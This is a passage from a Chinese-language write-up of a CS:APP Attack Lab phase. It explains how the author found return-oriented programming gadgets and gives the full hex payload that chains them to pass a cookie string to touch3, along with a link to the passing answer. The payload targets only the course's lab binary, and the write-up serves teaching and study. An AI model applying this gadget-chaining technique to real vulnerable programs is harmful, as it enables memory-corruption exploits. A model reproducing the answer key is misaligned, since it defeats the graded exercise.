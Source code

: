 3. 如何执行相加，这个我找了很久很久，也没有找到add的指令，我想尝试or，发现我无法确定它未加，**后来直到看到了lea，很巧的是这正好是add_xy做的事情。**

   当发现这一步之后，我们就顺藤摸瓜（自顶向下，二分击破）: 从lea开始一步步找就可以找到整一个偏移量的过程 。

   这样我们的偏移就存在rsi中了，而rsp就在rdi中了。最后rdi就在rax里了

   ```text
   0x4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
   
   a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */
   0x401a06    401a03:	8d 87 41 48 89 e0    mov rsp, %rax
   
   
   0x4019ea    4019e8:	8d 87 89 ce      mov ecx, esi	
   0x401a70    401a6e:	c7 07 89 d1      mov edx, ecx
   0x4019dd    4019db:	b8 5c 89 c2      mov eax, edx
   
   ab 19 40 00 00 00 00 00  /* popq rax 0x4019ab 0x4019a7 + 4 */
   /* rsp string 偏移为 32 */ 20 00 00 00 00 00 00 00 
   ```

   接着我们在  movq %rax, %rdi 即可完成传参。

4. 和之前一样touch3地址放到rsp位置上即可

完整答案和解释: (因为注释的原因，这个答案不能成功运行，但是适合阅读)，PASS答案:[hex](https://gitee.com/lin-xi-269/csapplab/tree/master/lab3attack/target1/5-2/5-2/hex)

```c
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00   /* 补齐至40 */

/* 1. 配置 rsi */

ab 19 40 00 00 00 00 00  /* popq rax 0x4019ab 0x4019a7 + 4 */
/* rsp string 偏移为 32 */ 20 00 00 00 00 00 00 00   
 
dd 19 40 00 00 00 00 00  /* mov eax, edx */
70 1a 40 00 00 00 00 00  /* mov edx, ecx */
ea 19 40 00 00 00 00 00  /* mov ecx, esi */

/* 2. 配置 rdi */
06 1a 40 00 00 00 00 00   /* 0x401a06  0x401a03 + 3 mov %rsp,%rax  */ 
/* 从这开始偏移为 0 */ a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */

/* 3. 加法运算 将字符串的地址保存进 rax */
d6 19 40 00 00 00 00 00  /* lea    (%rdi,%rsi,1),%rax */

/* 4. 将string address 赋给 rdi */
a2 19 40 00 00 00 00 00  /* 0x4019a2  movq %rax, %rdi 0x4019a0 + 2 */

/* 5. 调用touch3 */
fa 18 40 00 00 00 00 00   /* 0x4018fa touch3 */ 

/* 32 */    35 39 62 39 39 37 66 61 
/* 末尾0 */    00 00 00 00 00 00 00 00   
```
